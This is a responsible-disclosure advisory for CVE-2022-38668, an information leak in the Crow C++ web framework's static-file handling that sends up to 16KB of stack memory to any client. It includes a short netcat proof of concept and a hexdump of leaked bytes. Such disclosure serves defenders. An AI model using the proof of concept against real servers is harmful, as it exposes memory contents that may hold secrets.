 <h2><b><i>Summary:</i></b></h2>

Crow versions prior <a src="https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4">v1.0+4</a> (included) are vulnerable to an Information Disclosure
("Exposure of Sensitive Information to an Unauthorized Actor") issue, due to
improper handling of static resources.
Any request to a static resource, where the static resource is smaller than
16KB, will lead to disclosing up to 16KB of data from the stack.

Affected: Crow version 1.0+4 and older

<a src="https://github.com/CrowCpp/Crow">https://github.com/CrowCpp/Crow</a> - maintained version (fork)

<a src="https://github.com/ipkn/crow">https://github.com/ipkn/crow</a> - original version

CVE ID: [CVE-2022-38668](https://www.cve.org/CVERecord?id=CVE-2022-38668)

CVSS: 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

Discovered by:</br>
&ensp;Gynvael Coldwind</br>
&ensp;hebi

Method of discovery:</br>
  &ensp;Manual Analysis (reading the code)</br>

<blockquote>
"Crow is a C++ framework for creating HTTP or Websocket web services. It uses
routing similar to Python's Flask which makes it easy to use. It is also
extremely fast, beating multiple existing C++ frameworks as well as non C++
frameworks." </blockquote> (source: project's README.md)<br></br>

<b>IMPORTANT:</b> This vulnerability is reported under the 90-day policy 
(version 2021), i.e. this report will be shared publicly with the defensive
community on 16th November 2022 if a patch/fix is not available by that time, or
30 days after the fix becomes available. For details please see:
<a src="https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html">https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html</a>


<h2><b><i>Vulnerability details</i></b></h2>

The vulnerability is located in the Connection::do_write_static* method within 
the http_connection.h file.
*<a src="https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393">https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393</a>

This function creates a local buffer with a fixed size of 16384 bytes. Then the
buffer is passed to is.read() method (where "is" denotes an opened local file
pointed to by the static resource mapping) to acquire the content of the given
static resource (file). This call made within a while loop's condition, which
checks if any data was read (if not, the loop will exit).

However, the number of bytes that were read is not being tracked in any form.
Furthermore, the whole buffer is then passed to <code>asio::buffer</code> without specified
size**.

<b>**In this case it means that the whole array size will be used as data size, as
per the following constructor description:</b>

<a src="https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html">https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html</a>

This in turn leads to the whole local buffer being sent to the client requesting
the resource, including the potentially uninitialized part. This is especially
true for files smaller than 16KB.

<b>Conditions for triggering this behavior are:</b>

<ol>
  <li>Static path needs to be defined.</li>
  <li>At least 1 static file needs to exist</li>
  <li>The file needs to be smaller than 16KB.</li>
</ol>

<h2><b><i>Exploit</i></b></h2>

```
$ cat poc.txt | nc -v 127.0.0.1 18080 | hexdump -C
localhost [127.0.0.1] 18080 (?) open
00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
00000010  0a 43 6f 6e 74 65 6e 74  2d 54 79 70 65 3a 20 74  |.Content-Type: t|
00000020  65 78 74 2f 70 6c 61 69  6e 0d 0a 43 6f 6e 74 65  |ext/plain..Conte|
00000030  6e 74 2d 4c 65 6e 67 74  68 3a 20 35 0d 0a 53 65  |nt-Length: 5..Se|
00000040  72 76 65 72 3a 20 43 72  6f 77 2f 6d 61 73 74 65  |rver: Crow/maste|
00000050  72 0d 0a 44 61 74 65 3a  20 54 75 65 2c 20 31 36  |r..Date: Tue, 16|
00000060  20 41 75 67 20 32 30 32  32 20 32 32 3a 34 39 3a  | Aug 2022 22:49:|
00000070  32 32 20 47 4d 54 0d 0a  43 6f 6e 6e 65 63 74 69  |22 GMT..Connecti|
00000080  6f 6e 3a 20 4b 65 65 70  2d 41 6c 69 76 65 0d 0a  |on: Keep-Alive..|
00000090  0d 0a 54 65 73 74 0a 00  00 00 00 00 00 00 00 00  |..Test..........|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002a90  00 00 00 00 00 00 00 00  00 00 28 14 00 ac d8 7f  |..........(.....|
00002aa0  00 00 20 14 00 ac d8 7f  00 00 48 f8 8c b4 d8 7f  |.. .......H.....|
00002ab0  00 00 50 f8 8c b4 d8 7f  00 00 49 8a 42 00 00 00  |..P.......I.B...|
00002ac0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002ad0  00 00 03 00 00 00 00 00  00 00 11 00 00 00 00 00  |................|
00002ae0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002af0  00 00 c0 f8 8c b4 d8 7f  00 00 cc 89 42 00 00 00  |............B...|
00002b00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00002b10  00 00 5b 00 00 00 6e 00  00 00 c0 1c 00 ac d8 7f  |..[...n.........|
00002b20  00 00 b0 1c 00 ac d8 7f  00 00 01 00 00 00 00 00  |................|
00002b30  00 00 20 00 00 00 00 00  00 00 08 00 00 00 00 00  |.. .............|
00002b40  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002b50  00 00 b0 1c 00 ac d8 7f  00 00 40 f9 8c b4 d8 7f  |..........@.....|
00002b60  00 00 f0 f8 8c b4 d8 7f  00 00 89 48 49 00 00 00  |...........HI...|
00002b70  00 00 28 3b 8d b4 d8 7f  00 00 30 14 00 ac d8 7f  |..(;......0.....|
00002b80  00 00 40 f9 8c b4 d8 7f  00 00 48 f9 8c b4 d8 7f  |..@.......H.....|
00002b90  00 00 50 f9 8c b4 d8 7f  00 00 99 47 49 00 00 00  |..P........GI...|
00002ba0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bb0  00 00 30 f9 8c b4 d8 7f  00 00 b0 1c 00 ac d8 7f  |..0.............|
00002bc0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bd0  00 00 d0 1c 00 ac d8 7f  00 00 b0 1c 00 ac d8 7f  |................|
00002be0  00 00 30 14 00 ac d8 7f  00 00 30 14 00 ac d8 7f  |..0.......0.....|
00002bf0  00 00 90 f9 8c b4 d8 7f  00 00 00 53 2a 66 e1 24  |...........S*f.$|
00002c00  09 b2 30 14 00 ac d8 7f  00 00 60 ff ff ff ff ff  |..0.......`.....|
...
```

<h2><b><i>Proposed fix:</i></b></h2>

Passing the actual size of bytes read to <code>asio::buffer</code>'s constructor.


<h3><b><i>Timeline</i></b></h3>
<ul>
  <li>2022-08-14: Vulnerability discovered.</li>
  <li>2022-08-17: Vulnerability reported.</li>
  <li>2022-08-21: Public fix was proposed.</li>
  <li>2022-08-22: Public fix was merged in.</li>
  <li>2022-08-22: CVE requested and assigned.</li>
  <li>2022-09-23: Details were published.</li>
</ul>

<h3><b><i>Links</i></b></h3>
<b>Gynvael's blog post:</b></br>
&ensp; <a src="https://gynvael.coldwind.pl/?lang=en&id=752">https://gynvael.coldwind.pl/?lang=en&id=752</a>
